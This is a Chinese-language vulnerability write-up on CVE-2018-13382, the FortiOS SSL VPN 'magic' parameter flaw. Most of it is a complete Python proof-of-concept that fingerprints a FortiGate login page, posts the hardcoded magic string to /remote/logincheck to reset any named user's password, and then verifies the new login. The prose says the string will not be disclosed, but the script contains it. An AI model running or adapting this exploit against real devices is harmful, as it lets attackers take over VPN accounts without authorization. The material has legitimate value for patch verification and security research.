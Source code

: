 （CVE-2018-13382）Fortinet FortiOS magic后门
============================================

一、漏洞简介
------------

Fortinet
FortiOS是美国飞塔（Fortinet）公司的一套专用于FortiGate网络安全平台上的安全操作系统。该系统为用户提供防火墙、防病毒、IPSec/SSLVPN、Web内容过滤和反垃圾邮件等多种安全功能。
Fortinet FortiOS 6.0.0版本至6.0.4版本
、5.6.0版本至5.6.8版本和5.4.1版本至5.4.10版本中的SSL VPN
Web门户存在授权问题漏洞。该漏洞源于网络系统或产品中缺少身份验证措施或身份验证强度不足。

二、漏洞影响
------------

Fortinet Fortios 6.2 Fortinet Fortios 6.0.5 Fortinet Fortios 5.6.9
Fortinet Fortios 5.4.11

三、复现过程
------------

在登录页面中，我们找到了一个的特殊参数`magic`。一旦这个参数为某个特殊字符串，我们就可以修改任何用户的密码。

![](./resource/(CVE-2018-13382)FortinetFortiOSmagic后门/media/rId24.png)

根据我们的调查，仍有大量的Fortigate SSL
VPN缺少补丁。因此，考虑到其严重性，我们不会透露magic字符串。但是，[CodeWhite的研究人员](https://twitter.com/codewhitesec/status/1145967317672714240)已经复现了这个漏洞。毫无疑问，其他攻击者很快就会利用此漏洞！请尽快更新您的Fortigate！

> Critical vulns in
> [\#FortiOS](https://twitter.com/hashtag/FortiOS?src=hash&ref_src=twsrc%5Etfw)
> reversed & exploited by our colleagues
> [\@niph\_](https://twitter.com/niph_?ref_src=twsrc%5Etfw) and
> [\@ramoliks](https://twitter.com/ramoliks?ref_src=twsrc%5Etfw) - patch
> your
> [\#FortiOS](https://twitter.com/hashtag/FortiOS?src=hash&ref_src=twsrc%5Etfw)
> asap and see the
> [\#bh2019](https://twitter.com/hashtag/bh2019?src=hash&ref_src=twsrc%5Etfw)
> talk of
> [\@orange\_8361](https://twitter.com/orange_8361?ref_src=twsrc%5Etfw)
> and [\@mehqq\_](https://twitter.com/mehqq_?ref_src=twsrc%5Etfw) for
> details (tnx guys for the teaser that got us started)
> [pic.twitter.com/TLLEbXKnJ4](https://t.co/TLLEbXKnJ4)
>
> --- Code White GmbH (\@codewhitesec)
> [2019年7月2日](https://twitter.com/codewhitesec/status/1145967317672714240?ref_src=twsrc%5Etfw)

### poc

https://github.com/ianxtianxt/CVE-2018-13382

    $ python CVE-2018-13382.py  -h
    Usage: CVE-2018-13382.py [options]

    Options:
      -h, --help   show this help message and exit
      -i IP        e.g. 127.0.0.1:10443
      -u USERNAME  
      -p PASSWORD  
    import requests, binascii, optparse, sys
    from urlparse import urlparse
    from requests.packages.urllib3.exceptions import InsecureRequestWarning
    requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
    requests.packages.urllib3.disable_warnings()
    import multiprocessing
    import colored
    from user_agent import generate_user_agent, generate_navigator
    bold=True

    userAgent=generate_user_agent()
    username=""
    newpassword=""
    ip=""

    def setColor(message, bold=False, color=None, onColor=None):
        from termcolor import colored, cprint
        retVal = colored(message, color=color, on_color=onColor, attrs=("bold",))
        return retVal

    def checkIP(ip):
        try:
            url = "https://"+ip+"/remote/login?lang=en"
            headers = {"User-Agent": userAgent, "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Connection": "close", "Upgrade-Insecure-Requests": "1"}
            r=requests.get(url, headers=headers, verify=False)
            if r.status_code==200 and "<title>Please Login</title>" in r.text:
                return True
            else:
                return False
        except requests.exceptions.ConnectionError as e:
            print e
            return False

    def changePassword(ip,username,newpassword):
        url = "https://"+ip+"/remote/logincheck"
        headers = {"User-Agent": userAgent, "Accept": "*/*", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Referer": "https://"+ip+"/remote/login?lang=en", "Pragma": "no-cache", "Cache-Control": "no-store, no-cache, must-revalidate", "If-Modified-Since": "Sat, 1 Jan 2000 00:00:00 GMT", "Content-Type": "text/plain;charset=UTF-8", "Connection": "close"}
        data = {"ajax": "1", "username": username, "realm": '', "credential": newpassword, "magic": "4tinet2095866", "reqid": "0", "credential2": newpassword}
        r=requests.post(url, headers=headers, data=data, verify=False)
        if r.status_code==200 and 'redir=/remote/hostcheck_install' in r.text:
            return True
        else:
            return False

    def testLogin(ip,username,newpassword):
        url = "https://"+ip+"/remote/logincheck"
        headers = {"User-Agent": userAgent, "Accept": "*/*", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Referer": "https://"+ip+"/remote/login?lang=en", "Pragma": "no-cache", "Cache-Control": "no-store, no-cache, must-revalidate", "If-Modified-Since": "Sat, 1 Jan 2000 00:00:00 GMT", "Content-Type": "text/plain;charset=UTF-8", "Connection": "close"}
        data = {"ajax": "1", "username": username, "realm": '', "credential": newpassword}
        r=requests.post(url, headers=headers, data=data, verify=False)
        if r.status_code==200 and"redir=/remote/hostcheck_install" in r.text:
                return True
        else:
            return False

    parser = optparse.OptionParser()
    parser.add_option('-i', action="store", dest="ip", help="e.g. 127.0.0.1:10443")
    parser.add_option('-u', action="store", dest="username")
    parser.add_option('-p', action="store", dest="password")
    options, remainder = parser.parse_args()
    if not options.username or not options.password or not options.ip:
        print "[!] Please provide the ip (-i), username (-u) and password (-p)"
        sys.exit()
    if options.username:
        username=options.username
    if options.password:
        newpassword=options.password
    if options.ip:
        ip=options.ip
    tmpStatus=checkIP(ip)
    if tmpStatus==True:
        print "[*] Checking if target is a Fortigate device "+setColor(" [OK]", bold, color="green")
        if changePassword(ip,username,newpassword)==True:
            print "[*] Using the magic keyword to change password for: ["+username+"]"+setColor(" [OK]", bold, color="green")   
            if testLogin(ip,username,newpassword)==True:
                print "[*] Testing new credentials ["+username+"|"+newpassword+"] "+setColor(" [OK]", bold, color="green")
                print "************** Enjoy your new credentials **************\n"
            else:
                print "[*] Testing new credentials ["+username+"|"+newpassword+"] "+setColor(" [NOK]", bold, color="red")
        else:
            print "[*] Using the magic keyword to change password for: ["+username+"]"+setColor(" [NOK]", bold, color="red")            
    else:
        print "[*] Checking if target is a Fortigate device "+setColor(" [NOK]", bold, color="red")
